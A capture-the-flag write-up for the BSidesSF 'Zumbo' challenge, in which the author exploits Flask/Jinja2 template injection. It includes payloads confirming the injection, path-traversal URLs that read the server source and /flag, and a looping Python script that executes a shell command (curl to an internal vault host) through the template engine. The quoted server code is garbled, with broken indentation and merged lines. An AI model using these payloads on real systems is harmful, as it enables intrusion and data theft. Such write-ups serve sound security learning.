

# Zumbo 1/2/3

## Description

Welcome to ZUMBOCOM....you can do anything at ZUMBOCOM.

Three flags await. Can you find them?

http://zumbo-8ac445b1.ctf.bsidessf.net


## Solution

First of all: I spent about 2 hours to get all the three flags, the third one was nice because I've never exploited something like that, really liked this challenge!
Well, let's write the things!


### Zumbo1

The first part of the challenge was easy, at the bottom of the source code there was this:

```html
<!-- page: index.template, src: /code/server.py -->
```

My first thought was that could be a flask exploitation, and for my lucky, I was right! My first thought was that could be a flask exploitation, and for my lucky, I was right! I've already read a nice article about flask vulnerabilities [here](https://nvisium.com/blog/2015/12/07/injecting-flask/), but never needed to use it.

Confirming the vulnerability:

```
http://zumbo-8ac445b1.ctf.bsidessf.net/{{ 333+333 }}
```
This returns <b>666</b> which, means the server got our request, and now we can get more information, for example, the application's source code.

In this case, we had to encode the '/': http://zumbo-8ac445b1.ctf.bsidessf.net//..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fcode/server.py

```python
import flask, sys, os 
import requests 

app = flask.Flask(__name__) 
counter = 12345672 

@app.route('/') 
	def custom_page(page): 
		if page == 'favicon.ico': 
		return '' 
		
		global counter 
		counter += 1 
		
		try: 
			template = open(page).read() 
		except Exception as e: 
			template = str(e) template += "\n\n" % (page, __file__) 
			return flask.render_template_string(template, name='test', counter=counter); 
			
			
@app.route('/') def home(): 
	return flask.redirect('/index.template'); 
	if __name__ == '__main__': 
		flag1 = 'FLAG: FIRST_FLAG_WASNT_HARD' 
		
	with open('/flag') as f: 
	flag2 = f.read() 
		
	flag3 = requests.get('http://vault:8080/flag').text print "Ready set go!" 
	sys.stdout.flush() 
	
app.run(host="0.0.0.0")
```

Zumbo1 flag: FIRST_FLAG_WASNT_HARD


### Zumbo2

The second part of the challenge, was easy too. We just had to read the file called flag:

```
http://zumbo-8ac445b1.ctf.bsidessf.net//..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fflag
```

Zumbo2 flag: RUNNER_ON_SECOND_BASE


### Zumbo3

Now the cool part \o

As you can see above there's a local variable called flag3, I spent a long time trying to read this value. I was able to read the global counter, but not this one.

So, I started to think to make a request by myself and get the value instead of read the value of flag3. *(If someone knows how to do that, please tell me).*

In the same blog, there is another article where the author goes deeper in flask vulnerablity: https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/

Following these steps, I was able to execute commands in the server, but how can I get the flag? At this time, I was receiveng Internal Server Error from time in time, so I decided to kinda of bruteforce a request with curl to get the flag:

```python
import requests

while True:
        r  = requests.get("http://zumbo-8ac445b1.ctf.bsidessf.net/{{ config['RUNCMD']('/usr/bin/curl http://vault:8080/flag',shell=True)%20%7D%7D")
        if r.status_code == 200:
                print(r.text)
                exit()
```



Zumbo3 flag: BRICK_HOUSE_BEATS_THE_WOLF